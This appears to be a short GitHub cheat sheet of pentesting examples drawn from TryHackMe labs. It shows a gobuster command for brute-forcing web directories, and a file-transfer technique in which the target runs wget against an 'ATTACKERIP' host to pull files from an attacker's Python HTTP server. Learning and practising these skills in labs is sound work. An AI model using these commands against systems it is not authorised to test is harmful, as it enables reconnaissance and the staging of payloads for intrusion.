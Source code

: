 <h1 align="center">RED BOOK</h1>
<h2 align="center"> Short examples for pentesting/hacking</h2>
<h3 align="center"> Tryhackme and other sources</h3>

<table>
  <tr>
    <td align="left">
      <strong>GOBUSTER CRAWLER BRUTE FORCE WEBSITE PAGES</strong><br>
      Using wordlist, search for directories on webserver to detect what pages webserver have.<br>
      gobuster -u http://WEBPAGE -w WORDLIST.txt dir<br>
      -u is used to state the website we're scanning<br>
      -w takes a list of words to iterate through to find hidden pages<br>
      -dir search for directories
    </td>
  </tr>
  <tr>
    <td align="left">
      <strong>TRANSFER FILES USING HTTP</strong><br>
Start http server with Python (Win) and download files on target with wget request.<br>
On attacker (win): <br>
python3 -m http.server 1234 c:/testdir            -(1234 is port, and in last part is default dir for http server)<br>
On target in CMD (win/linux/any):<br>
wget http://ATTACKERIP:1234/SOMEFILEINROOTDIR
    </td>
  </tr>
</table>

